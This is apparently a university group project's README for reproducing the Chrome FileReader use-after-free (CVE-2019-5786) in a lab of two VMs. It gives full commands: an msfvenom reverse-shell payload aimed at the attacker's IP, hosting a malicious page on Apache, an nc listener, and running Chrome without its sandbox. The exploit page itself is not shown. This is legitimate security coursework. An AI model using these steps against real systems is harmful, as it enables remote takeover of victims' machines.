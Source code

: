 # CMPT733-Group9

**Members**: Yogesh Chaudhary, Haolin Ye, Madhvik Patel

**Topic**: Reproducing CVE-2019-5786 chrome Filereader Use-After-Free vulnerability



### Environment

- VM for Windows7 (32-bit) with the vulnerable chrome version installed: [Link](https://drive.google.com/file/d/1nraxRiuc1U02qz4ODMIiIuF5ftgp15Wl/view?usp=sharing)
- A Linux VM (such as Ubuntu 16.04)

If you want to have a fresh build, here are the resources you need:

- VM file for Windows 7 (32-bit) from Microsoft: [Link](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/)
- Google_Chrome (v72.0.3626.119): [Link](https://drive.google.com/file/d/128dxHVSc-pwEI0Rnyl_Hadfait1xDuNf/view?usp=sharing)

You should put these two VMs in the same LAN for convenience and make sure they can find each other. If you are using Virtualbox, select "NAT Network"; If you are using VMWare, select "NAT".

![diag](./diag.png)



### How to run the exploit

#### Setups on attacker side (Linux VM)

You need to host the malicious website on the Linux VM so make sure you have apache2 installed. You can verify if the service is running by following command on Linux VM:

```
systemctl status apache2
```



Firstly, you need to generate your own shellcode because we need to include attacker VM's ip address in the shellcode. You can check the ip address on the Linux VM by `ifconfig`. Then, use a very popular tool called [MsfVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) to generate the shellcode and encode it with percent-encoding. Execute the following command by replacing YOUR_IP with your Linux VM's ip address.

```
msfvenom -p windows/powershell_reverse_ tcp LHOST=YOUR_IP LPORT=4449 PayloadBindPort=4449 -a x86 --platform windows -f js_le -e generic/none
```

Then, open `index.html` and search for `shellcode` variable. Replace it with the shellcode you just generated.



Secondly, move the malicious website (index.html) to the web root folder of apache2

```
sudo mv index.html /var/www/html
```



Thirdly, start a local listener using netcat and cross your finger

```
nc -lvnp 4449
```



#### On Windows7 VM

You need to open cmd and run chrome.exe out of sandbox environment with the flag `--no-sandbox`. Here are the commands:

```
cd "C:\Program Files\Google\Chrome\Application"

chrome.exe --no-sandbox
```



Finally, visit the malicious website hosted on Linux VM. For example, if the ip address of your Linux MV is 10.0.2.4, you will visit the url `http://10.0.2.4`



If the exploitation is successful, you can see now you have a reverse shell on Linux VM. If the malicious page is crashed, simply refresh the page and try again.



### Video Demo

You can also check our demo [here](https://youtu.be/Wq8kT_a6ZLQ) on YouTube.